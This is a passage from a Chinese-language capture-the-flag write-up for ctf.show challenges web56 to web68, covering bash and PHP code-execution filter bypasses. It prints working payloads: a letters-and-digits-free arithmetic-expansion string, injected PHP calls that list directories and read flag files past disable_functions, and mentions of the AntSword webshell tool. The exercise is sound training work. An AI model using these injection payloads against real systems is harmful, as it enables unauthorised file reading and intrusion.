
经过6次发送，成功访问


既然命令可以执行了，那我们去寻找一下flag


这次比较幸运，两次就访问到

cat一下，得到flag


------

#### web56

分析


过滤了字母和数字

web55的方法三就可以利用

再试一次

构建upload（更改url）

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://36b8d408-5872-4311-8784-1ae9b5f18a65.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```

进行访问，文件上传


抓包并发给Repeater


成功执行命令


查看flag位置


找到flag，cat查看


------

#### web57

分析


过滤了

```
"/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i"
```

但是分析代码，只要我们传入一个c=36就可以

构建36

```
$(())=0
对其进行取反
$((~$(())))=-1
构建出36，就是构建-37然后进行取反
$((~$((加上37个-1))))
$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))=36
```


构建命令

```
?c=$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))
```

得到flag


------

<div style="page-break-after:always"></div>

### 类型四

PHP代码执行，突破禁用函数,绕过disable_functions

#### web58

分析代码


##### 方法一：剑蚁链接（不推荐）


发现flag


##### 方法二：读取文件函数进行读取flag

首先介绍一下几种函数的用法

执行命令的函数

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

首先获得文件路径

| 函数名    | 功能                                 |
| --------- | ------------------------------------ |
| scandir() | 扫目录用的，返回数组                 |
| getcwd()  | 返回当前目录                         |
| glob()    | 包含匹配指定模式的文件名或目录的数组 |
| dir()     | 返回 Directory 类的实例              |
| opendir   | 打开目录句柄                         |

```
c=print_r(scandir(dirname('__FILE__')));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };

c=$a=dir(getcwd());while ($file = $a->read()){echo $file . "<br>"; };

```

选用命令，查看文件目录

第一种：

```
c=print_r(scandir(dirname('__FILE__')));
```


第二种：

```
c=$a=new DirectoryIterator('glob://*');foreach($a as $f){echo($f->__toString()." ");}
```


第三种：

```
c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };
```


第四种：

```
c=$a=dir(getcwd());while ($file = $a->read()){echo $file . "<br>"; };
```


读取文件函数

```

highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include（）
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
```

同样，为了加深印象，我们都试一下，进行post传参

第一种：

```
c=highlight_file("flag.php");
```


第二种：

```
c=show_source("flag.php");
```


第三种：

```
c=print_r(php_strip_whitespace("flag.php"));
```


第四种：

```
c=print_r(file_get_contents("flag.php"));
```


第五种：

```
c=readfile("flag.php");
```


第六种：

```
c=print_r(file("flag.php"));
```


第七种：（失败，fread被禁）

```
c=fread(fopen("flag.php","r"), $size);
```


第八种：

```
c=fpassthru(fopen("flag.php", "r"));
```


第九种：（失败，fgetss被禁）

```
print_r(fgetss(fopen($filename, "r")));
```


------

#### web59

分析


代码发现没有变化，应该是有新的函数被禁用

##### 方法一：剑蚁

剑蚁很简单，就不赘述了


##### 方法二：读取文件函数进行读取flag

不知道禁用的哪个，都试试看

查看目录

```
c=print_r(scandir(dirname('__FILE__')));
```


查看flag

选用

```
c=highlight_file("flag.php");
```


------

#### web60

代码发现没有变化，应该是有新的函数被禁用

剑蚁可以链接，但是无法显示内容？？？不解

那就用读取文件函数进行读取flag

查看目录

```
c=print_r(scandir(dirname('__FILE__')));
```


查看flag

```
c=highlight_file("flag.php");
```


------

#### web61


应该是有新的函数被禁用，蚁剑无法链接

采用通过读取文件函数进行读取flag

先查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```


使用读取文件函数进行读取

```
c=highlight_file("flag.php");
```

得到flag


------

#### web62

同样，先试一下蚁剑，不出预料的失败了

构建命令查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```


构建命令获取flag

```
c=highlight_file("flag.php");
```

得到flag


------

#### web63

蚁剑尝试失败

构建命令查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```


构建命令查看flag

```
c=highlight_file("flag.php");
```

得到flag


#### web64

蚁剑尝试失败

构建命令，查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```


构建命令，查看flag

```
c=highlight_file("flag.php");
```

得到flag


------

#### web65

构建命令查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```


构建命令查看flag

```
c=highlight_file("flag.php");
```

得到flag


------

#### web66

构建命令查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```


查看flag

```
c=highlight_file("flag.php");
```


踩到坑了

继续寻找flag位置

构建命令

```
c=print_r(scandir(dirname('/')));
查看根目录下文件
```


构建命令，获取flag

```
c=highlight_file("/flag.txt");
```


------

#### web67

老规矩查看flag位置

```
c=print_r(scandir(dirname('/')));
```


print_r()被禁，那我们换一个

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```


找到flag位置，构建命令查看flag

```
c=highlight_file("/flag.txt");
```

得到flag


------

#### web68

发现没有代码


提示 highlight_file()被禁用

先查看flag位置

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```


查看flag

```
c=highlight_file("/flag.txt");
highlight_file()被禁用，所以要换一个
c=show_source("flag.txt");
c=show_source()被禁用
```


```
这里我们用
c=include("/flag.txt");
```


得到flag

------

web
